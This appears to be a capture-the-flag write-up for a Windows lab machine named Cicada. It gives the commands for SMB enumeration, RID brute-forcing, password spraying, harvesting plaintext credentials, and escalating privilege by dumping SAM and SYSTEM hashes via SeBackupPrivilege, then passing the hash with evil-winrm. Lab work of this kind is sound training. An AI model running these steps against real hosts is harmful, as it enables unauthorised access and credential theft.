

# Cicada - Windows(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```


## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```


This returns quite a bit of information. We can see that a few ports are open, most notably port 445(SMB).

## Investigating SMB
We can check SMB by using netexec and smbclient.

```
netexec smb <target IP>
- Check SMB

netexec winrm <target IP>

smbclient -NL <target IP>
- List SMB shares
```


After checking the listed shares we find out that the HR share can be accessed with an anonymous user (no username/password is required).

```
smbclient //<target IP>/HR
```


We can then retrieve the 'Notice from HR.txt' file by using the get command.
Back on our attacking machine we can cat the file to read the contents. 


Here we can see the default password that is provided to new hires.

Now we can use the --rid-brute option in netexec to brute force a list of usernames and output them to a txt file.

```
netexec smb <target IP> -u 'anonymous' -p '' --rid-brute > user_name_enum.txt
```


Clean up the output so that only the text file only contains the usernames.
Then use netexec to check to see if the default password is still in use by any of the accounts.

```
netexec smb <target IP> -u userNames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```


We can see that the password worked for the user michael.wrightson.
Next we can check what access Michael has to the available SMB shares.

```
smbmap -H <target IP> -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```


Checking the READ ONLY shares we dont find anything of use.
Next we can try enum4linux to try enumerate more information. Reference: https://github.com/CiscoCXSecurity/enum4linux

```
enum4linux  -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' <target IP>
```


Luckily, a user has left his password in his account details.
We can try smbmap again with the new credentials.

```
smbmap -H <target IP> 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```
Now we can see that we have access to the DEV share.


Access the DEV share using smbclient.

```
smbclient //<target IP>/DEV -U 'david.orelious'
```


We can get the file Backup_script.ps1 and then read it locally on our attacking machine.
The script contains another set of credentials in plaintext.


## User Flag
Try and use evil-winrm with the new user credentials. This works and we can find the flag on the users desktop.

```
evil-winrm -i <target IP> -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```


## Privilege Escalation and Root Flag
We can enumerate the current privileges of the logged in user using the below commnad.
```
whoami /priv
```


We see that SeBackupPrivilege is Enabled. This can be used to escalate our privileges. Reference: https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

```
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```

Then, we can use impack-secretsdump to dump the sam hashes. With this we can use evil-winrm to pass the hash and connect as Local Admin.
From here, navigate to the Desktop to retrieve the root flag.

```
impacket-secretsdump LOCAL -system system -sam sam
evil-winrm -i <target IP> -u 'Administrator' -H '<hash>'
```


Congratulations Cicada has been successfully Pwned!


